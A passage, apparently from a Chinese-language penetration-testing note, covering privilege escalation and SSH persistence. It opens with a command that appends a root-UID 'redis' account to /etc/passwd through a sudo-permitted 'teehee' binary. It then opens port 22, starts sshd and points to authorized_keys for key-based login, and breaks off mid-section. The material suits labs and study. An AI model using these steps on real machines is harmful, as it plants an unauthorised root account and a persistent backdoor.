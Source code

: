 ```plain
echo "redis:x:0:1001:::/bin/bash" | sudo teehee -a /etc/passwd
```

## 0x01 公私钥

### 防火墙导入配置

ubuntu/debain

```plain
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
```

centos

```plain
firewall-cmd --zone=public --add-port=22/tcp --permanent
```

### ssh 服务是否启动

```plain
ps -e| grep ssh
```

启动 SSH 服务的命令取决于操作系统。以下是一些不同操作系统上启动 SSH 服务的命令：

Linux

1.  **Systemd 系统（例如 Ubuntu 16.04+，CentOS 7+）:**
    
    ```plain
    sudo systemctl start ssh
    ```
    
2.  **SysV Init 系统（例如 Ubuntu 14.04，CentOS 6）:**
    
    ```plain
    sudo service ssh start
    ```
    

macOS

```plain
sudo systemsetup -setremotelogin on
```

ssh 登录时会先检查公钥，公钥位置在～/.ssh/authorized\_keys

### 直接启动 SSH 守护进程

在某些系统上，你可能需要直接启动 SSH 守护进程，而不使用服务管理工具。SSH 守护进程的二进制文件通常是 `sshd`。你可以使用以下命令：

```plain
/usr/sbin/sshd
```

**如果想要 利用公私钥登录而无需输入密码，需要更改如下配置**
